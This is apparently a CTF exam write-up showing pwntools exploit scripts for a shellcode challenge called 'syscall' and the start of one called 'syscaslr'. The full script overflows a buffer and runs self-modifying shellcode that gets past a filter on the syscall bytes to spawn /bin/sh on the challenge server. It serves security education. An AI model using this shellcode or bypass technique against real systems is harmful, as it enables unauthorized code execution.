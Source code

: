 # Advanced Cybersecurity Topics CTF exam 2020/2021
## syscall
![c](https://img.shields.io/badge/shellcode-red) ![p](https://img.shields.io/badge/Points-204-success)
```python
from pwn import *

context.terminal = ['terminator', '-e']

# Connect to the server 
r = remote("actf.jinblack.it", 4001)

# Classic shellcode with buffer overflow
# Main problem: the code checks if we insert 0f and a 05 right after it (syscall instruction blocked)
# Idea: save a similar value (in this case 0f05 - 1) and then compute it back

'''
SHELLCODE - simply follow the parameters passing in the registers
mov rax, 0x3b		; syscall value for execve
mov rdi, 0x404080	; pointer to /bin/sh
xor rsi, rsi 		; set rsi to 0
xor rdx, rdx 		; set rdx to 0
mov rbx, 0x050e 	; use a register to store the syscall values (\x0f\x05) - 1 to bypass the check
add rbx, 1 			; now add 1 to get the actual bytes
mov [rip], rbx 		; and modify the value pointed by rip in order to trigger the syscall execution
'''

# /bin/sh will be at the start of the buffer, so at 0x404080
# so the address where we want to jump is 8 bytes after this 
target_addr = 0x404088

shellcode = b"\x48\xC7\xC0\x3B\x00\x00\x00\x48\xC7\xC7\x80\x40\x40\x00\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC3\x0E\x05\x00\x00\x48\x83\xC3\x01\x48\x89\x1D\x00\x00\x00\x00"

# Send payload and overwrite RIP with the target address
payload = (b"/bin/sh\x00" + shellcode).ljust(216, b"\x90") + p64(target_addr)

# Adjust again
payload = payload.ljust(1000, b"\x90")

r.send(payload)
r.interactive()
```

**flag{nice_job!_self_modifying_shellcode?}**

## syscaslr
![c](https://img.shields.io/badge/shellcode-red) ![p](https://img.shields.io/badge/Points-204-success)
```python
from pwn import *

context.terminal = ['terminator', '-e']

# Connect to the server
r = remote("actf.jinblack.it", 4002)

# Main problem: the code checks if we insert a 0f or a 05 (syscall instruction blocked), also this time we don't know the buffer address
# Idea: save a similar value (in this case 0x0f05 - 0x0101) and then compute it back, while storing the /bin/sh string in the stack 
```